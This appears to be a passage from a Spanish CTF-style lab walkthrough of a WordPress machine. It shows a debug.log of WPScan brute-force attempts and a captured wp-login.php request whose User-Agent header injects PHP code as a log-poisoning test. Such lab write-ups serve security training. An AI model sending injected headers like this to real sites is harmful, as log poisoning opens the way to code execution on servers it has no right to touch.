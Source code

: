 Veremos un archivo bastante interesante llamado `debug.log`, vamos a entrar dentro de dicho archivo a ver que encontramos.

```
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28 (https://wpscan.com/wordpress-security-scanner)</pre>
[03-May-2025 15:14:03 UTC] <pre>Intento de inicio de sesión fallido para el usuario: bicho desde la IP: 172.17.0.1 con User-Agent: WPScan v3.8.28
...............................<RESTO_CODIGO>....................................
```

Veremos que podemos visualizar los `logs` y nos aparecera la fuerza bruta que hemos realizado anteriormente con `wpscan`, vamos a probar si podemos realizar un `Log Poisoning` de la siguiente forma:

De primeras vemos que se esta mostrando con un `<pre>` la informacion del usuario, la `IP` y el `User-Agent`, vamos a probar a capturar la peticion del `login` de `wordpress` para modificar el `User-Agent` e intentar `injectar` codigo `PHP` para ver si se visualiza en los `logs`.

Cuando capturemos la peticion, veremos algo asi:

```
URL = http://bicho.dl/wp-login.php
```

> PETICION:

```
POST /wp-login.php HTTP/1.1
Host: bicho.dl
User-Agent: <?php phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://bicho.dl/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 97
Origin: http://bicho.dl
Connection: keep-alive
Cookie: wordpress_test_cookie=WP%20Cookie%20check
Upgrade-Insecure-Requests: 1
Priority: u=0, i

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2Fbicho.dl%2Fwp-admin%2F&testcookie=1
```
